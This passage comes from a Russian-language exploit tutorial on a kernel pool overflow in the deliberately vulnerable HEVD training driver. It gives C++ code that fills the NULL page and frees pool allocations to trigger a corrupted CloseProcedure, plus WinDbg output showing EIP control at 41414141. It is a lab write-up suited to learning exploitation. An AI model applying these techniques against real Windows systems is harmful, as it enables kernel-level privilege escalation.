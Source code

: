 ```cpp
    memset((void*)0x0, '\x41', 0x100);

}
```

Также заполним NULL страницу \x42 значениями, чтобы, запустив этот код, мы получили Access Violation со значением 0x42424242 в eip

И последнее, нам нужно освободить наши чанки, чтобы активировалась CloseProcedure

```cpp
void free_chunks() {

    cout << "[>] Freeing defragmentation allocations...\n";
    for (int i = 0; i < defragment_handles.size(); i++) {

        BOOL freed = CloseHandle(defragment_handles[i]);
        if (freed == false) {
            cout << "[!] Unable to free defragment allocation!\n";
            cout << "[!] Last error: " << GetLastError() << "\n";
            exit(1);
        }
    }
    cout << "[>] Defragmentation allocations freed.\n";
    cout << "[>] Freeing sequential allocations...\n";
    for (int i = 0; i < sequential_handles.size(); i++) {

        BOOL freed = CloseHandle(sequential_handles[i]);
        if (freed == false) {
            cout << "[!] Unable to free defragment allocation!\n";
            cout << "[!] Last error: " << GetLastError() << "\n";
            exit(1);
        }
    }
    cout << "[>] Sequential allocations freed.\n";
}

```

Где-то здесь я пришёл к выводу, что его код всё-таки хороший и идея раскидать всё по функция стоит того))))

```js
kd> g
Breakpoint 0 hit
HEVD!TriggerPoolOverflow:
a815b12a 6a14            push    14h
kd> g
Breakpoint 1 hit
HEVD!TriggerPoolOverflow+0xe6:
a815b210 686cc315a8      push    offset HEVD! ?? ::NNGAKEGL::`string' (a815c36c)
kd> g
Access violation - code c0000005 (!!! second chance !!!)
41414141 ??              ???
```
